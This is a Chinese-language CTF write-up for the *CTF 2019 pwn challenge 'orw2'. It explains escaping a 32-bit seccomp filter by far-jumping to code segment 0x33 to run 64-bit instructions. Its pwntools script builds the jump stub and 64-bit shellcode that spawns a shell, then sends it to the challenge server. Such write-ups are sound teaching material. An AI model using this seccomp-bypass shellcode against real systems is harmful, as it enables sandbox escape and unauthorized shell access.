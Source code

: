 ﻿---
title: writeup.starctf.pwn.orw2
date: 2019-08-26 15:15:00
categories: writeup
tags: [writeup,pwn]
---

## 前言

做orw的时候很轻松，做orw2，找不到任何资料，耐心问了师傅知道 `jmp` 指令（特指远跳转）还可以通过修改 CS 寄存器来切换 `Segment Descriptor`，使 32 位进程可以切换CPU至 64 位处理 64 位的指令集，orw2一开始通过 `seccomp` 限制了一票 `syscall`，但是不限制 64 位架构，因此这题需要切换至 64 位 `arch`，然后再 `syscall`。

一个关于GDT的参考文章：[传送门](https://www.malwaretech.com/2014/02/the-0x33-segment-selector-heavens-gate.html)

## 分析
1.checksec
![](https://i.loli.net/2019/08/26/XBFTzPI3WL5itDr.png)
2.seccomp
![](https://i.loli.net/2019/08/26/APJFj4cM3vZ7hrn.png)
把规则表拿出来

![](https://i.loli.net/2019/08/26/XvGmN8cFZ9d6gBf.png)
可以看到使用 64 位模式即可跳过检查

## 方法
![](https://i.loli.net/2019/08/26/fqzeANKG5Wd1tSU.png)
很简单，这buffer是在bss段，还没开PIE。首先切换指令模式
```python
from pwn import *    
import struct

context.clear(arch='i386', os='linux')  
code32 = "jmp 0x33:0x804a068\n"
shell32 = asm(code32)
```
然后是 64 位的shellcode
```python
context.clear(arch='amd64', os='linux')  
code64 = pwnlib.shellcraft.amd64.linux.sh()
shell64 = asm(code64)

print "length 32: %x" % (len(shell32))
print "length 64: %x" % (len(shell64))
```
稍微安排一下，第一级编译出来长度为7，加一个nop，所以跳转到 `0x804a068`

## 结果
```python
shell = shell32 + 'X' + shell64 

conn = remote("pwn.sixstars.team", 22019) 
conn.sendline(shell)    
ret = conn.recvrepeat(0.1)
print ret 
conn.interactive()
```
执行
![](https://i.loli.net/2019/08/26/4pi8DHYQPherMAK.png)
## 参考资料
https://www.hardwaresecrets.com/amd-64-bit-architecture-x86-64/2/
https://stackoverflow.com/questions/24113729/switch-from-32bit-mode-to-64-bit-long-mode-on-64bit-linux
https://www.cnblogs.com/lanrenxinxin/p/4821152.html
https://www.cnblogs.com/HsinTsao/p/7270732.html
